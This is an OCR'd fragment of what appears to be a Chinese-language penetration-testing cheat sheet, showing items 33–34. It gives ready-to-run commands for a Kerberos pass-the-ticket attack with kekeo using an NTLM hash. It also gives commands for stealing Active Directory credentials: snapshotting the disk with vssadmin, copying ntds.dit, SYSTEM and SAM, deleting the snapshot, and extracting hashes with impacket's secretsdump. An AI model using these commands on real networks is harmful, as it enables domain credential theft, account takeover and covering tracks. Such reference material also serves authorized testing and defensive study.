   33. ##### pass the ticket

      不需要管理员权限

      ```
      kekeo "tgt::ask /user:abc /domain:test.local /ntlm:hash" https://github.com/gentilkiwi/kekeo
      ```

      导入ticket：

      ```
      kekeo "kerberos::ptt TGT_abc@TEST.LOCAL_krbtgt~test.local@TEST.LOCAL
      ```

  34. ##### ntds.dit

      vssadmin方法>=win 2008
      查询当前系统的快照

      ```
      vssadmin list shadows
      ```

      创建快照

      ```
      vssadmin create shadow /for=c: 获得Shadow Copy Volume Name为\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy47
      ```

      复制ntds.dit

      ```
      copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy47\windows\NTDS\ntds.dit c:\ntds.dit    copy第一个参数为创建快照时位置
      ```

      复制system和sam

      ```
      copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy47\windows\system32\config\system c:\
      copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy47\windows\system32\config\sam c:\
      ```

      删除快照

      ```
      vssadmin delete shadows /for=c: /quiet
      ```

      获取将以上system，sam, ntds.dit 放到 /root/ntds_cracking/下，运行

      ```
      python secretsdump.py -ntds /root/ntds_cracking/ntds.dit -system /root/ntds_cracking/SYSTEM LOCAL -outputfile  hash.txt
      ```

      安装：

      ```
      git clone  https://github.com/CoreSecurity/impacket.git
      cd impacket-master/
      python setup.py  install
      ```

